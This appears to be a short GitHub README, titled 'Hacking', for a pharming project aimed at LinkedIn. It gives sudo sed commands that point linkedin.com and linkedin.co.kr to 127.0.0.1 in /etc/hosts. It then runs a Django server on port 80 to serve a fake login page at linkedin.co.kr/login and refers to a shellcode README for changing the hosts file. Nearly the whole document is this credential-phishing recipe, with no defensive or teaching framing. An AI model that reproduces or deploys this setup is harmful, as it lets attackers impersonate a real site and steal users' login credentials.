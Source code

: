 # Hacking
## Requirement
1. django 설치
2. python 설치

## DNS Fishing Code
```
sudo vi /etc/hosts
sudo sed -i '1i127.0.0.1 linkedin.co.kr' /etc/hosts
sudo sed -i '1i127.0.0.1 linkedin.com' /etc/hosts
sudo sed -i '1i127.0.0.1 www.linkedin.com' /etc/hosts
sudo sed -i '1i127.0.0.1 www.linkedin.co.kr' /etc/hosts
sudo sed -i '1i127.0.0.1 kr.linkedin.co.kr' /etc/hosts
```

## Pharming WebSite Execution
```
cd ${Clone Path}
python manage.py runserver 127.0.0.1:80
```

## Modifiy host file
Refer to ./shellcode/README file


## Access Link
linkedin.co.kr/login

